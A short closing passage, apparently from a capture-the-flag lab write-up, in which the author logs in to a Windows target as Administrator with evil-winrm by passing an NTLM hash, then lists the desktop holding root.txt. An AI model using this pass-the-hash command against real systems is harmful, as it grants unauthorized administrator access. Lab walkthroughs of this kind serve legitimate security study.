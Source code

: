 finally lets get root and PWN this machine:
`evil-winrm -i 10.10.11.202 -u Administrator -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee'`

```
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/28/2025  11:57 PM             34 root.txt
```

PWNED!